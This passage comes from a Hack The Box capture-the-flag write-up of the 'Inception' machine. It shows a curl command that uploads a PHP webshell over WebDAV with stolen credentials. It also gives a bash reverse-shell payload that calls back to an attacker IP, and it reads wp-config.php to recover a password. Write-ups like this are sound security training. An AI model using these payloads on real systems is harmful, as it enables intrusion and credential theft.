 Next, we will use the ```curl``` command to upload a php webshell onto the website.

```
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ curl -X PUT http://webdav_tester:babygurl69@inception.htb/webdav_test_inception/shell.php -d @shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav_test_inception/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at inception.htb Port 80</address>
</body></html>
```

### Exploiting webshell
Afterwards, we will try to create a reverse shell connection using ```/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.6/4000 0>&1'``` as the payload. However, it seems that we are unable to create a reverse shell connection. 

Let us verify with a ping commad to check if we can reach our local machine. From the output, we noticed that we are unable to reach our IP address. It is likely that there is a firewall or IP rules that prevent outbound connections.

![Ping command](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inception/ping.png)

Let us try to extract the user flag using ```cat /home/cobb/user.txt```. However, this does not return any flag for us. It might be due to the fact that the web user does not have the sufficient privileges to access the user flag in /home/cobb

![Attemping to obtain user flag from webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inception/webshell_user_flag.png)

Listing out the directories in /var/www/html using ```ls /var/www/html```, we can find a ```wordpress_4.8.3``` directory. Furthur on, listing the ```wordpress_4.8.3``` directory reveals a wp-config.php file. We shall then proceed to view the contents of the wp-config.php file using ```cat /var/www/html/wordpress_4.8.3/wp-config.php```

Viewing the contents of the wp-config.php file, we are able to discover a password ```VwPddNh7xMZyDQoByQL4```. 

![Obtaining password from wp-config.php file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inception/wp_password.png)

